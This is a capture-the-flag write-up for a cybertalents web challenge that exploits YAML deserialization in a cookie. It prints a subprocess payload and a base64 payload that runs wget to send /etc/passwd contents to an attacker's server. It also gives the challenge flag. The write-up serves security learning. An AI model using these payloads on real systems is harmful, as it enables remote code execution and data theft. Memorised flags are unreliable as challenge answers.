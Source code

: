 # A writeup on Bad Request from cybertalents, Marathon CTF.

- Challenge Name: `Bad Request`
- Level: `Medium`
- Points: `100`
- Category: `Web Security`

## Challenge Description
>> we are working on an api for our website , 
>> we didn't decide if YAML would be accurate or not but it is still under construction , we hope our passwd file is secure.


## First Look
as we see we got a json document `api_data	"The api is still under construction, updates coming soon!`
and taking a look at the cookies with the cookie editor we have a cookie called `data`:`YXBpX2RhdGE6IFRoZSBhcGkgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==`
when we decode the base64 we get:`api_data: The api is still under construction, updates coming soon!`,
basiclly nothing, but when you think about it it makes sense ofcourse it has something to do with YAML
so look up `YAMl Deserialization` its a YAML RCE.

I found an intereseting payload `yaml: !!python/object/apply:subprocess.check_output ['id']` and it worked
but there is a problem the flag is in `/etc/passwd` and this payload doesn't accept spaces.

so a friend gave me a link `https://xerosecurity.com/wordpress/exploiting-python-deserialization-vulnerabilities/`.

## Solution
I tried a python web server didin't work for me so i tried
`https://requestbin.com/r`

Payload: `Imdvb2RieWUiOiAhIXB5dGhvbi9vYmplY3QvYXBwbHk6b3Muc3lzdGVtIFsid2dldCBodHRwOi8veW91ci13ZWItc2VydmVyLz9gY2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAneydgIl0=` (decode it to know the answer and put your data and decode it again and input it as a cookie)

Flag:`FLAG{aa330d7755f14d398cbfef715bbf36f59a8cfae5}`

Credits to "ItsFadinG" for helping me solve this challenge.
